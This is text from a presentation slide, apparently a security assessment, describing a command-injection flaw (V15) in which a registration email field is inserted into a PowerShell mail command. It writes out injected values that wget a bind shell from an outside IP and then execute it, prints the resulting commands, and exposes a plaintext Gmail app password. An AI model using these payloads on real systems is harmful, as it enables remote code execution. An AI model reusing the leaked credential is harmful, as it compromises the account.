

Major vulnerability (V15)
New user account is registered to trigger downloading bind shell (malware)
     - Email: t@t.co' -F";wget http://20.119.70.194:81/b -O s;#
The powershell command would be generated as follows with the email address

New user account is registered to trigger executing the bind shell
     - Email: t@t.co' -F";mv s shell.exe; .\shell.exe;#
The powershell command would be generated as follows with the email address

Demonstration video will be played in next slide
powershell.exe -ExecutionPolicy Bypass -Command "Send-MailMessage -To 't@t.co' -F";wget http://20.119.70.194:81/b -O s;#' -From ' lgss23.team2@gmail.com' -Subject 'Two-factor authentication' -Body 'Token : RMHYACSc' -SmtpServer 'smtp.gmail.com' -Port 587 -UseSsl -Credential (New-Object System.Management.Automation.PSCredential -ArgumentList ' lgss23.team2@gmail.com', (ConvertTo-SecureString -String 'bbmugvpajgoanzbu' -AsPlainText -Force))"
powershell.exe -ExecutionPolicy Bypass -Command "Send-MailMessage -To 't@t.co' -F";mv s shell.exe; .\shell.exe;#' -From ' lgss23.team2@gmail.com' -Subject 'Two-factor authentication' -Body 'Token : SdT3e2C5' -SmtpServer 'smtp.gmail.com' -Port 587 -UseSsl -Credential (New-Object System.Management.Automation.PSCredential -ArgumentList ' lgss23.team2@gmail.com', (ConvertTo-SecureString -String 'bbmugvpajgoanzbu' -AsPlainText -Force))"
24